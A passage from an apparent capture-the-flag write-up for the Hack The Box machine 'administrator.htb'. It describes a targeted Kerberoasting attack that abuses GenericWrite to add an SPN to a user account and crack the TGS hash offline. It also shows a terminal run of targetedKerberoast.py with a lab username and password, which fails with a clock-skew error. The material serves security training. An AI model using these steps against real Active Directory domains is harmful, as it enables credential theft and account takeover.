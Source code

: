 <img src="Imgs/image6.png" alt="error loading image">

### How It Works  

1. Adds a **Service Principal Name (SPN)** to `Etham`'s account, allowing a Kerberos ticket request.  
2. Requests a **Kerberos ticket** for the newly added SPN.  
3. Extracts the **TGS (Ticket Granting Service) hash**, which can be cracked offline.  
4. **SPNs can be added** using `GenericWrite`, enabling a Kerberoasting attack.  
5. **Kerberos tickets** are extractable once an SPN exists on an account.  


```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 targetedKerberoast.py -v -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[!] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
Traceback (most recent call last):
  File "/home/kali/Downloads/targetedKerberoast.py", line 597, in main
    tgt, cipher, oldSessionKey, sessionKey = getKerberosTGT(clientName=userName, password=args.auth_password, domain=args.auth_domain, lmhash=None, nthash=auth_nt_hash,
                                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 323, in getKerberosTGT
    tgt = sendReceive(encoder.encode(asReq), domain, kdcHost)
          ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/krb5/kerberosv5.py", line 93, in sendReceive
    raise krbError
impacket.krb5.kerberosv5.KerberosError: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
If the issue **"Clock skew too great"** occurs, run the following command to fix it:  
